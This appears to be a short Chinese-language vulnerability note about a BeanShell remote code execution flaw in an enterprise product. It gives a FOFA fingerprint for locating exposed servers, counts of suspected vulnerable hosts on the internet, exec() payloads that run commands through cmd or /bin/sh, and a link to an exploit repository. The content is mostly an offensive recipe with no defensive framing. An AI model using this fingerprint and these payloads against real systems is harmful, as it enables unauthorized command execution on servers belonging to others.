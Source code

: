 ### 1、FOFA搜索关键字：
```
icon_hash="1085941792"
```

### 2、检测结果
```
经检测，互联网上开放目标共6845个，疑似存在漏洞目标1475个，访问异常目标5370个
```

### 3、漏洞利用
```
exec("cmd /c whoami.exe")
exec("/bin/sh whoami")
```

### 3、参考连接
```
https://github.com/z1un/NC-BeanShell-RCE
```
